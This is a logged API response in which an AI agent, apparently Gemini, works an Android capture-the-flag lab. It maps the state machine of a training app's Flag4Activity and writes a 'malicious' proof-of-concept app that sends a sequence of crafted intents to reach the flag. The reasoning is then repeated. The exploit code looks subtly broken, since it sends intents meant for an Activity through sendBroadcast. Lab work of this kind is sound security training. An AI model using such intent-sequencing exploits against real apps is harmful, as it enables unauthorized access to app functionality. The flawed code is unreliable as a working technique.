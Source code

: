 GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="Alright, the `Flag4Activity` uses a state machine. Here's the breakdown:\n\n1.  The `stateMachine` method is called with the intent.\n2.  The `getCurrentState` method retrieves the current state from `SolvedPreferences`.\n3.  The state transitions are based on the intent's action and the current state.\n4.  To reach the `success(this)` call and get the flag, the state needs to be `GET_FLAG` and any action needs to be sent.\n5.  The state transitions are:\n    *   `INIT` + `PREPARE_ACTION` -> `PREPARE`\n    *   `PREPARE` + `BUILD_ACTION` -> `BUILD`\n    *   `BUILD` + `GET_FLAG_ACTION` -> `GET_FLAG`\n    *   `GET_FLAG` + *any* action -> `INIT` + `success(this)`\n\nTherefore, to solve the challenge, we need to send a sequence of intents with the following actions: `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, and then any action.\n\nNow, let's construct the malicious Android application to send these intents. I'll create `MaliciousFlag4PoC.java` and `AndroidManifest_PoC.xml`.\n\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        // Target component\n        String targetPackage = "io.hextree.attacksurface";\n        String targetClass = "io.hextree.attacksurface.activities.Flag4Activity";\n\n        // Create the intents with the required actions\n        Intent prepareIntent = new Intent();\n        prepareIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        prepareIntent.setAction("PREPARE_ACTION");\n\n        Intent buildIntent = new Intent();\n        buildIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        buildIntent.setAction("BUILD_ACTION");\n\n        Intent getFlagIntent = new Intent();\n        getFlagIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        getFlagIntent.setAction("GET_FLAG_ACTION");\n\n        Intent triggerIntent = new Intent();\n        triggerIntent.setComponent(new ComponentName(targetPackage, targetClass));\n        triggerIntent.setAction("TRIGGER_ACTION");\n\n        // Send the intents in sequence\n        sendBroadcast(prepareIntent);\n        Log.i("MaliciousApp", "Sent PREPARE_ACTION");\n        sendBroadcast(buildIntent);\n        Log.i("MaliciousApp", "Sent BUILD_ACTION");\n        sendBroadcast(getFlagIntent);\n        Log.i("MaliciousApp", "Sent GET_FLAG_ACTION");\n        sendBroadcast(triggerIntent);\n        Log.i("MaliciousApp", "Sent TRIGGER_ACTION");\n\n        finish(); // Close the activity after sending the intents\n    }\n}\n', 'file_path': 'MaliciousFlag4PoC.java'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=CitationMetadata(citations=[Citation(end_index=1441, license=None, publication_date=None, start_index=1300, title=None, uri='https://huggingface.co/datasets/tomekkorbak/detoxify-pile-chunk3-1850000-1900000')]), finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.06589952053774159, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=726, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=726)], prompt_token_count=16224, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=16224)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=16950, traffic_type=None), automatic_function_calling_history=[], parsed=None)

--- Parsed Reasoning/Thought ---
Alright, the `Flag4Activity` uses a state machine. Here's the breakdown:

1.  The `stateMachine` method is called with the intent.
2.  The `getCurrentState` method retrieves the current state from `SolvedPreferences`.
3.  The state transitions are based on the intent's action and the current state.
4.  To reach the `success(this)` call and get the flag, the state needs to be `GET_FLAG` and any action needs to be sent.
5.  The state transitions are:
    *   `INIT` + `PREPARE_ACTION` -> `PREPARE`
    *   `PREPARE` + `BUILD_ACTION` -> `BUILD`
    *   `BUILD` + `GET_FLAG_ACTION` -> `GET_FLAG`
    *   `GET_FLAG` + *any* action -> `INIT` + `success(this)`
